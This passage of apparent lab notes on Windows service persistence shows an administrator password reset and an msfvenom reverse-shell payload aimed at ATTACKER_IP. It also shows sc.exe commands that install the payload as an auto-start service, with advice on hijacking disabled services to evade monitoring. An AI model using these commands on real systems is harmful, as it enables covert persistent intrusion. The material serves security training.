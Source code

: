 **Note:** 
	There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:
```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```
 ![[Pasted image 20240910033314.png]]

Copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it:
```shell-session
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

### Modifying existing services
While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

You can get a list of available services using the following command:
```shell-session
C:\> sc.exe query state=all
SERVICE_NAME: THMService1
DISPLAY_NAME: THMService1
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

You should be able to find a stopped service called THMService3. To query the service's configuration, you can use the following command:
```shell-session
C:\> sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2 AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMService3
        DEPENDENCIES       : 
        SERVICE_START_NAME : NT AUTHORITY\Local Service
```
